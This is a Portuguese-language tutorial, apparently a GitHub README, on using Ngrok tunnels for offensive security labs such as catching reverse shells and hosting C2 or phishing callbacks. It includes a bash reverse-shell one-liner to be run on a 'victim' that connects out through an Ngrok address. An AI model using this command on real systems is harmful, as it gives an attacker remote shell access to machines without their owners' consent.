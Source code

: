 # NGROK

🌍 O que é o Ngrok?

Ngrok cria túneis seguros entre a internet e sua máquina local, permitindo que um servidor (ex: web, listener, etc.) local seja acessado de fora — mesmo atrás de NAT ou firewall.

⸻

🧱 Casos de uso comuns para segurança ofensiva:
	1.	Receber uma shell reversa mesmo sem IP público
	2.	Testar payloads em máquinas fora da sua rede
	3.	Compartilhar servidores web locais (ex: DVWA, C2, listener)
	4.	Atuar como servidor de callback para phishing ou exfiltração

⸻

🚀 Como usar o Ngrok (passo a passo)

1. 🔽 Baixar e instalar

Acesse: https://ngrok.com/download

Linux:

wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
unzip ngrok
sudo mv ngrok /usr/local/bin/

2. 🔑 Autenticar (opcional, mas recomendado)

Crie uma conta gratuita no site e pegue seu token. Depois:

ngrok config add-authtoken SEU_TOKEN


⸻

3. 📡 Criar um túnel (ex: porta 4444 para shell reversa)

ngrok tcp 4444

Isso cria um túnel público como:

tcp://0.tcp.ngrok.io:12345 → localhost:4444

4. 🎯 Usar em payload reverso

Na vítima (ex: em DVWA, Command Injection, etc):

bash -i >& /dev/tcp/0.tcp.ngrok.io/12345 0>&1

Pronto! A shell reversa virá pelo túnel.

⸻

💡 Outros usos:
	•	Expor um servidor web local:

ngrok http 80


	•	Ver logs, requisições e interações via web:

http://localhost:4040



⸻

🛡️ Dicas de segurança
	•	Use só em labs, nunca em ambientes de produção sem controle
	•	Cuidado ao usar Ngrok para simular phishing ou C2, pois o tráfego pode ser monitorado
	•	Se estiver usando para shells ou payloads, sempre teste localmente antes